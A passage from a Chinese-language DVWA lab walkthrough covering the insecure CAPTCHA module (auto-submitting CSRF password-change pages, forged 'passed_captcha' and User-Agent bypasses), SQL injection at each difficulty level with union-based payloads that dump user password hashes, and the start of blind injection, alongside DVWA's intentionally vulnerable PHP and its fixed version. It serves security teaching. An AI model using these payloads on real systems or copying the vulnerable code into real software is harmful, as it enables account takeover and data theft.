由于没有任何的防 CSRF 机制，我们可以轻易地构造攻击页面，页面代码如下
```
<html>

<body onload="document.getElementById('transfer').submit()">

  <div>

    <form method="POST" id="transfer" action="http://<IP地址!!!>/dvwa/vulnerabilities/captcha/">

		<input type="hidden" name="password_new" value="password">

		<input type="hidden" name="password_conf" value="password">

		<input type="hidden" name="step" value="2"

		<input type="hidden" name="Change" value="Change">

	</form>

  </div>

</body>

</html>
```

当受害者访问这个页面时，攻击脚本会伪造改密请求发送给服务器。
美中不足的是，受害者会看到更改密码成功的界面（这是因为修改密码成功后，服务器会返回 302，实现自动跳转），从而意识到自己遭到了攻击

### Medium
**服务器端核心代码**
```php
<?php

if( isset( $_POST[ 'Change' ] ) && ( $_POST[ 'step' ] == '1' ) ) {
	// Hide the CAPTCHA form
	$hide_form = true;

	// Get input
	$pass_new  = $_POST[ 'password_new' ];
	$pass_conf = $_POST[ 'password_conf' ];

	// Check CAPTCHA from 3rd party
	$resp = recaptcha_check_answer(
		$_DVWA[ 'recaptcha_private_key' ],
		$_POST['g-recaptcha-response']
	);

	// Did the CAPTCHA fail?
	if( !$resp ) {
		// What happens when the CAPTCHA was entered incorrectly
		$html     .= "<pre><br />The CAPTCHA was incorrect. Please try again.</pre>";
		$hide_form = false;
		return;
	}
	else {
		// CAPTCHA was correct. Do both new passwords match?
		if( $pass_new == $pass_conf ) {
			// Show next stage for the user
			$html .= "
				<pre><br />You passed the CAPTCHA! Click the button to confirm your changes.<br /></pre>
				<form action=\"#\" method=\"POST\">
					<input type=\"hidden\" name=\"step\" value=\"2\" />
					<input type=\"hidden\" name=\"password_new\" value=\"{$pass_new}\" />
					<input type=\"hidden\" name=\"password_conf\" value=\"{$pass_conf}\" />
					<input type=\"hidden\" name=\"passed_captcha\" value=\"true\" />
					<input type=\"submit\" name=\"Change\" value=\"Change\" />
				</form>";
		}
		else {
			// Both new passwords do not match.
			$html     .= "<pre>Both passwords must match.</pre>";
			$hide_form = false;
		}
	}
}

if( isset( $_POST[ 'Change' ] ) && ( $_POST[ 'step' ] == '2' ) ) {
	// Hide the CAPTCHA form
	$hide_form = true;

	// Get input
	$pass_new  = $_POST[ 'password_new' ];
	$pass_conf = $_POST[ 'password_conf' ];

	// Check to see if they did stage 1
	if( !$_POST[ 'passed_captcha' ] ) {
		$html     .= "<pre><br />You have not passed the CAPTCHA.</pre>";
		$hide_form = false;
		return;
	}

	// Check to see if both password match
	if( $pass_new == $pass_conf ) {
		// They do!
		$pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
		$pass_new = md5( $pass_new );

		// Update database
		$insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
		$result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

		// Feedback for the end user
		$html .= "<pre>Password Changed.</pre>";
	}
	else {
		// Issue with the passwords matching
		$html .= "<pre>Passwords did not match.</pre>";
		$hide_form = false;
	}

	((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```

可以看到，Medium 级别的代码在第二步验证时，参加了对参数 passed_captcha 的检查，如果参数值为 true，则认为用户已经通过了验证码检查，然而用户依然可以通过伪造参数绕过验证，本质上来说，这与 Low 级别的验证没有任何区别。

**可以通过抓包，更改step参数，增加passed_captcha参数，绕过验证码。**



**CSRF**

依然可以实施 CSRF 攻击，攻击页面代码如下。
```
<html>

<body onload="document.getElementById('transfer').submit()">

  <div>

    <form method="POST" id="transfer" action="http://<IP地址!!!>/dvwa/vulnerabilities/captcha/">

		<input type="hidden" name="password_new" value="password">

		<input type="hidden" name="password_conf" value="password">

        <input type="hidden" name="passed_captcha" value="true">

		<input type="hidden" name="step" value="2"

		<input type="hidden" name="Change" value="Change">

	</form>

  </div>

</body>

</html>
```

### High
**服务器端核心代码**
```php
<?php

if( isset( $_POST[ 'Change' ] ) ) {
	// Hide the CAPTCHA form
	$hide_form = true;

	// Get input
	$pass_new  = $_POST[ 'password_new' ];
	$pass_conf = $_POST[ 'password_conf' ];

	// Check CAPTCHA from 3rd party
	$resp = recaptcha_check_answer(
		$_DVWA[ 'recaptcha_private_key' ],
		$_POST['g-recaptcha-response']
	);

	if (
		$resp || 
		(
			$_POST[ 'g-recaptcha-response' ] == 'hidd3n_valu3'
			&& $_SERVER[ 'HTTP_USER_AGENT' ] == 'reCAPTCHA'
		)
	){
		// CAPTCHA was correct. Do both new passwords match?
		if ($pass_new == $pass_conf) {
			$pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
			$pass_new = md5( $pass_new );

			// Update database
			$insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "' LIMIT 1;";
			$result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

			// Feedback for user
			$html .= "<pre>Password Changed.</pre>";

		} else {
			// Ops. Password mismatch
			$html     .= "<pre>Both passwords must match.</pre>";
			$hide_form = false;
		}

	} else {
		// What happens when the CAPTCHA was entered incorrectly
		$html     .= "<pre><br />The CAPTCHA was incorrect. Please try again.</pre>";
		$hide_form = false;
		return;
	}

	((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```
可以看到，服务器的验证逻辑是当 $resp（这里是指谷歌返回的验证结果）是 false，并且参数 recaptcha_response_field 不等于 hidd3n_valu3（或者 http 包头的 User-Agent 参数不等于 reCAPTCHA）时，就认为验证码输入错误，反之则认为已经通过了验证码的检查。

**漏洞利用**

搞清楚了验证逻辑，剩下就是伪造绕过了，由于 $resp 参数我们无法控制，所以重心放在参数 recaptcha_response_field、User-Agent 上。

第一步依旧是抓包


更改参数 recaptcha_response_field 以及 http 包头的 User-Agent



注:在最新版的 dvwa 中这里要改成 `g-recaptcha-response=hidd3n_valu3`

### Impossible
**服务器端核心代码**
```php
<?php

if( isset( $_POST[ 'Change' ] ) ) {
	// Check Anti-CSRF token
	checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

	// Hide the CAPTCHA form
	$hide_form = true;

	// Get input
	$pass_new  = $_POST[ 'password_new' ];
	$pass_new  = stripslashes( $pass_new );
	$pass_new  = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
	$pass_new  = md5( $pass_new );

	$pass_conf = $_POST[ 'password_conf' ];
	$pass_conf = stripslashes( $pass_conf );
	$pass_conf = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_conf ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
	$pass_conf = md5( $pass_conf );

	$pass_curr = $_POST[ 'password_current' ];
	$pass_curr = stripslashes( $pass_curr );
	$pass_curr = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_curr ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
	$pass_curr = md5( $pass_curr );

	// Check CAPTCHA from 3rd party
	$resp = recaptcha_check_answer(
		$_DVWA[ 'recaptcha_private_key' ],
		$_POST['g-recaptcha-response']
	);

	// Did the CAPTCHA fail?
	if( !$resp ) {
		// What happens when the CAPTCHA was entered incorrectly
		$html .= "<pre><br />The CAPTCHA was incorrect. Please try again.</pre>";
		$hide_form = false;
		return;
	}
	else {
		// Check that the current password is correct
		$data = $db->prepare( 'SELECT password FROM users WHERE user = (:user) AND password = (:password) LIMIT 1;' );
		$data->bindParam( ':user', dvwaCurrentUser(), PDO::PARAM_STR );
		$data->bindParam( ':password', $pass_curr, PDO::PARAM_STR );
		$data->execute();

		// Do both new password match and was the current password correct?
		if( ( $pass_new == $pass_conf) && ( $data->rowCount() == 1 ) ) {
			// Update the database
			$data = $db->prepare( 'UPDATE users SET password = (:password) WHERE user = (:user);' );
			$data->bindParam( ':password', $pass_new, PDO::PARAM_STR );
			$data->bindParam( ':user', dvwaCurrentUser(), PDO::PARAM_STR );
			$data->execute();

			// Feedback for the end user - success!
			$html .= "<pre>Password Changed.</pre>";
		}
		else {
			// Feedback for the end user - failed!
			$html .= "<pre>Either your current password is incorrect or the new passwords did not match.<br />Please try again.</pre>";
			$hide_form = false;
		}
	}
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

可以看到，Impossible 级别的代码增加了 Anti-CSRF token 机制防御 CSRF 攻击，利用 PDO 技术防护 sql 注入，验证过程终于不再分成两部分了，验证码无法绕过，同时要求用户输入之前的密码，进一步加强了身份认证。

---

## SQL Injection
SQL Injection，即 SQL 注入，是指攻击者通过注入恶意的SQL命令，破坏SQL查询语句的结构，从而达到执行恶意 SQL 语句的目的。SQL 注入漏洞的危害是巨大的，常常会导致整个数据库被“脱裤”，尽管如此，SQL 注入仍是现在最常见的Web漏洞之一。

**手工注入思路**

自动化的注入神器 sqlmap 固然好用，但还是要掌握一些手工注入的思路，下面简要介绍手工注入（非盲注）的步骤。
```
1.判断是否存在注入，注入是字符型还是数字型
2.猜解SQL查询语句中的字段数
3.确定显示的字段顺序
4.获取当前数据库
5.获取数据库中的表
6.获取表中的字段名
7.下载数据
```

### Low
**服务器端核心代码**
```php
<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
	// Get input
	$id = $_REQUEST[ 'id' ];

	// Check database
	$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
	$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

	// Get results
	while( $row = mysqli_fetch_assoc( $result ) ) {
		// Get values
		$first = $row["first_name"];
		$last  = $row["last_name"];

		// Feedback for end user
		$html .= "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
	}

	mysqli_close($GLOBALS["___mysqli_ston"]);
}

?>
```
可以看到，Low 级别的代码对来自客户端的参数 id 没有进行任何的检查与过滤，存在明显的 SQL 注入。

**漏洞利用**
1. 判断是否存在注入，注入是字符型还是数字型

    输入 `1`，查询成功：

    

    输入 `1'and '1' ='2`，查询失败，返回结果为空：

    

    输入 `1'or '1'='1`，查询成功：

    

    返回了多个结果，说明存在字符型注入。

    注: 关于数字型，字符型，搜索型的区别可以参考如下文章:https://blog.csdn.net/change518/article/details/8116920

2. 猜解SQL查询语句中的字段数

    输入 `1' or 1=1 order by 1 #`，查询成功：

    

    输入 `1' or 1=1 order by 2 #`，查询成功
    输入 `1' or 1=1 order by 3 #`，查询失败：

    

    说明执行的 SQL 查询语句中只有两个字段，即这里的 First name、Surname。
    （这里也可以通过输入 union select 1,2,3… 来猜解字段数）

3. 确定显示的字段顺序

    输入 `1' union select 1,2 #`，查询成功：

    

    说明执行的 SQL 语句为 select First name,Surname from 表 where ID=’id’…

4. 获取当前数据库

    输入 `1' union select 1,database() #`，查询成功：

    

    说明当前的数据库为 dvwa。

5. 获取数据库中的表

    输入 `1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #`，查询成功：

    

    说明数据库 dvwa 中一共有两个表，guestbook 与 users。

6. 获取表中的字段名

    输入 `1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #`，查询成功：

    

    说明 users 表中有8个字段，分别是 user_id,first_name,last_name,user,password,avatar,last_login,failed_login。

7. 下载数据

    输入`1' or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #`，查询成功：

    

    这样就得到了 users 表中所有用户的 user_id,first_name,last_name,password 的数据。

### Medium
**服务器端核心代码**
```php
<?php

if( isset( $_POST[ 'Submit' ] ) ) {
	// Get input
	$id = $_POST[ 'id' ];

	$id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

	$query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
	$result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

	// Get results
	while( $row = mysqli_fetch_assoc( $result ) ) {
		// Display values
		$first = $row["first_name"];
		$last  = $row["last_name"];

		// Feedback for end user
		$html .= "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
	}

}

// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];

mysqli_close($GLOBALS["___mysqli_ston"]);
?>
```

可以看到，Medium 级别的代码利用 mysql_real_escape_string 函数对特殊符号 `\x00,\n,\r,\,’,”,\x1a` 进行转义，同时前端页面设置了下拉选择表单，希望以此来控制用户的输入。

**漏洞利用**

虽然前端使用了下拉选择菜单，但我们依然可以通过抓包改参数，提交恶意构造的查询参数。

1. 判断是否存在注入，注入是字符型还是数字型

    抓包更改参数 id 为 `1' or 1=1`,报错
    抓包更改参数 id 为 `1 or 1=1 #`，查询成功

    

    说明存在数字型注入。由于是数字型注入，服务器端的 mysql_real_escape_string 函数就形同虚设了，因为数字型注入并不需要借助引号。

2. 猜解 SQL 查询语句中的字段数

    抓包更改参数 id 为 `1 order by 2 #`，查询成功：

    

    抓包更改参数 id 为 `1 order by 3 #`，报错,说明执行的SQL查询语句中只有两个字段，即这里的 First name、Surname。

3. 确定显示的字段顺序

    抓包更改参数 id 为 `1 union select 1,2 #`，查询成功：

    

    说明执行的SQL语句为 `select First name,Surname from 表 where ID=id…`

4. 获取当前数据库

    抓包更改参数 id 为 `1 union select 1,database() #`

5. 获取数据库中的表

    抓包更改参数 id 为 `1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #`

6. 获取表中的字段名

    抓包更改参数 id 为 `1 union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #` ,查询失败

    

    这是因为单引号被转义了，变成了 `\’`。

    可以利用 16 进制进行绕过，抓包更改参数 id 为 `1 union select 1,group_concat(column_name) from information_schema.columns where table_name=0x7573657273 #`

    

    说明 users 表中有 8 个字段，分别是 user_id,first_name,last_name,user,password,avatar,last_login,failed_login。

7. 下载数据

    抓包修改参数 id 为 `1 or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #`

### High
**服务器端核心代码**
```php
<?php

if( isset( $_SESSION [ 'id' ] ) ) {
	// Get input
	$id = $_SESSION[ 'id' ];

	// Check database
	$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
	$result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );

	// Get results
	while( $row = mysqli_fetch_assoc( $result ) ) {
		// Get values
		$first = $row["first_name"];
		$last  = $row["last_name"];

		// Feedback for end user
		$html .= "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
	}

	((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```
可以看到，与 Medium 级别的代码相比，High 级别的只是在 SQL 查询语句中添加了 LIMIT 1，希望以此控制只输出一个结果。

**漏洞利用**

虽然添加了 LIMIT 1，但是我们可以通过 `#` 将其注释掉。由于手工注入的过程与 Low 级别基本一样，直接最后一步演示下载数据。

输入 `1' or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #` ，查询成功：


需要特别提到的是，High 级别的查询提交页面与查询结果显示页面不是同一个，也没有执行 302 跳转，这样做的目的是为了防止一般的 sqlmap 注入，因为 sqlmap 在注入过程中，无法在查询提交页面上获取查询的结果，没有了反馈，也就没办法进一步注入。

### Impossible
**服务器端核心代码**
```php
<?php

if( isset( $_GET[ 'Submit' ] ) ) {
	// Check Anti-CSRF token
	checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

	// Get input
	$id = $_GET[ 'id' ];

	// Was a number entered?
	if(is_numeric( $id )) {
		// Check the database
		$data = $db->prepare( 'SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;' );
		$data->bindParam( ':id', $id, PDO::PARAM_INT );
		$data->execute();
		$row = $data->fetch();

		// Make sure only 1 result is returned
		if( $data->rowCount() == 1 ) {
			// Get values
			$first = $row[ 'first_name' ];
			$last  = $row[ 'last_name' ];

			// Feedback for end user
			$html .= "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
		}
	}
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

可以看到，Impossible 级别的代码采用了 PDO 技术，划清了代码与数据的界限，有效防御 SQL 注入，同时只有返回的查询结果数量为一时，才会成功输出，这样就有效预防了“脱裤”，Anti-CSRFtoken 机制的加入了进一步提高了安全性。

---

## SQL Injection(Blind)

SQL Injection（Blind），即 SQL 盲注，与一般注入的区别在于，一般的注入攻击者可以直接从页面上看到注入语句的执行结果，而盲注时攻击者通常是无法从显示页面上获取执行结果，甚至连注入语句是否执行都无从得知，因此盲注的难度要比一般注入高。目前网络上现存的 SQL 注入漏洞大多是 SQL 盲注。

**手工盲注思路**

手工盲注的过程，就像你与一个机器人聊天，这个机器人知道的很多，但只会回答“是”或者“不是”，因此你需要询问它这样的问题，例如“数据库名字的第一个字母是不是a啊？”，通过这种机械的询问，最终获得你想要的数据。

盲注分为基于布尔的盲注、基于时间的盲注以及基于报错的盲注，这里由于实验环境的限制，只演示基于布尔的盲注与基于时间的盲注。

下面简要介绍手工盲注的步骤（可与之前的手工注入作比较）：
```
1.判断是否存在注入，注入是字符型还是数字型
2.猜解当前数据库名
3.猜解数据库中的表名
4.猜解表中的字段名
5.猜解数据
```

### Low
**服务器端核心代码**
```php
<?php

if( isset( $_GET[ 'Submit' ] ) ) {
	// Get input
	$id = $_GET[ 'id' ];

	// Check database
	$getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
	$result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid ); // Removed 'or die' to suppress mysql errors

	// Get results
	$num = @mysqli_num_rows( $result ); // The '@' character suppresses errors
	if( $num > 0 ) {
		// Feedback for end user
		$html .= '<pre>User ID exists in the database.</pre>';
	}
	else {
		// User wasn't found, so the page wasn't!
		header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

		// Feedback for end user
		$html .= '<pre>User ID is MISSING from the database.</pre>';
	}

	((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```

可以看到，Low 级别的代码对参数 id 没有做任何检查、过滤，存在明显的 SQL 注入漏洞，同时 SQL 语句查询返回的结果只有两种，`User ID exists in the database.`与`User ID is MISSING from the database.` 因此这里是 SQL 盲注漏洞。

**漏洞利用**
- **基于布尔的盲注**

    1. 判断是否存在注入，注入是字符型还是数字型

        输入`1`，显示相应用户存在

        输入`1' and 1=1 #`，显示存在

        输入`1' and 1=2 #`，显示不存在

        说明存在字符型的SQL盲注。


---

http://www.storysec.com/dvwa-file-upload.html

http://www.storysec.com/dvwa-sql-injection.html

https://blog.csdn.net/hitwangpeng/article/details/47042971

https://blog.csdn.net/nzjdsds/article/details/81814066


http://www.storysec.com/dvwa-sql-injection.html


